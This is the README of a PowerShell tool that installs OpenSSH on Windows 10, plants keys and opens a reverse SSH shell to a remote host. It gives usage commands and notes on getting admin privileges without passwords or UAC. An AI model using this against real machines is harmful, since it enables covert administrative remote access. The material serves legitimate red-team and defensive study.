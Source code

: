 # lol-reverseSSHell
Living Off the LAN Reverse Shell over SSH

This script is intended to make working with SSH reverse shells easier on Windows 10. It will install OpenSSH Server (if missing) on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys file to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Unix vs Windows Reverse SSH Shells, and the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate to a shell when using keypair authentication. A simple call to localhost will connect to a shell under the context of the user that initiated it. 
 
  --- Windows Example --- ssh localhost -p `<localport>`  
  --- Unix Example --------- ssh user123@localhost -p `<localport>` 
* Admin privleges - Because the shell is ran using an admin PS promt, the shell will have admin privleges without ever needing to know the user's admin password. No sudo commands or UAC to prevent these elevated privleges. Almost equivlent to a root shell in Unix. Which means you can modify system files without issue.  

